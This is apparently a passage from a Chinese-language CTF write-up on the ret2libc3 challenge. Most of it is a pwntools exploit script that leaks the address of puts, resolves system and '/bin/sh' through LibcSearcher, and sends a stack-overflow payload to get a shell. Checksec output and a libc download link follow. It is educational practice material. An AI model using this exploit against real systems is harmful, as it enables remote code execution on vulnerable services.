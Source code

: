 	puts_addr=u32(r.recv()[0:4])#交互泄露puts的地址

	#r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab')\#用来计算第二次的覆盖位置

	libc = LibcSearcher('puts', puts_addr)#通过泄露的puts的地址可以拿到libc的版本

	puts_libc=libc.dump('puts')#puts在libc中的地址

	base_addr=puts_addr-puts_libc#基地址

	system_addr=base_addr+libc.dump('system')

	binsh_addr=base_addr+libc.dump('str_bin_sh')

	payload=flat(['A' *104,system_addr,'aaaa',binsh_addr])\#注意第二次运行main函数的时候覆盖的位置不同，可以cyclic再计算一遍，'aaaa'就是用来填充位置的。

	r.sendlineafter('Can you find it !?', payload)

	r.interactive()

直接运行不知道为什么会卡在这里，但用gdb调试就可以拿到shell

	~/Desktop$ python t.py

	[*] '/home/katrina/Desktop/ret2libc3'

	Arch: i386-32-little

	RELRO: Partial RELRO

	Stack: No canary found

	NX: NX enabled

	PIE: No PIE (0x8048000)

	[+] Starting local process './ret2libc3': pid 26084

	[+]
	http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_i386.deb
	



![image](https://github.com/tearorca/tearorca.github.io/blob/master/_posts/QQ%E6%88%AA%E5%9B%BE20190119153102.png)

